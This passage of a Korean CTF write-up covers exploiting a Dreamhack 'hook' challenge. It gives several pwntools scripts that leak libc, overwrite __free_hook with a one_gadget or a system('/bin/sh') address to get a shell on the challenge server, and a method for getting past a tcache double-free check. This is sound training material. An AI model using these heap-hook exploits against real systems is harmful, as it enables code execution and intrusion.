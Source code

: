 ```python
one_gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

og = libc_base + one_gadget[1]

payload = p64(free_hook) + p64(og)
p.sendlineafter('Size: ', '500') # any values
p.sendlineafter('Data: ', payload)

p.interactive()
```

## 2nd. Exploit

소스코드를 보면 `system("/bin/sh");`이 존재한다. 그리고 `*(long *)*ptr = *(ptr+1);` 입력받은 값에 대해 다음 Byte를 저장하는 로직도 존재한다.

그렇다면, `system`을 호출하는 이전 메모리의 값을 넣고 전달한다면 이 다음의 메모리를 가져오기에 `system` 호출이 가능하다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/201584984-dcd168a8-d70e-4c40-ac4a-693c5d67d486.jpg" width = 550>
</p>

`ptr`에는 **0x400a11**의 주소가 들어가 이후에는 해당 메모리부터 순회하기에 **0x400a16**로 인한 System Call이 이루어진다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 14260)
# p = process('./hook')
e = ELF('./hook')
libc = ELF('./libc.so.6')

p.recvuntil('stdout: ')
stdout = int(p.recv(14), 16)

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']
system = 0x400a11

payload = p64(free_hook) + p64(system)
p.sendlineafter('Size: ', '500') # any values
p.sendlineafter('Data: ', payload)

p.interactive()
```

## 3rd. Exploit

이번 방법은 `free(ptr)`가 두 번 있기에 **double free detected in tcache 2** 같은 영역 두 번 초기화에 대한 에러를 우회하는 방법이다.

단순히 `free()`함수를 실행하지 못하게 혹은 다른 함수로 대체하여 가장 마지막에 위하고 있는 `system("/bin/sh")`이 가능하게 하는 방법이다.

단순하게 `free()` 함수를 `__free_hook`을 통해 변환하기 가장 좋은 방법은 **put** 함수다. free 함수와 마찬가지로 인자가 하나만 필요하기에 **put**을 Hook Overwriting 하면 문제를 쉽게 풀 수 있다.
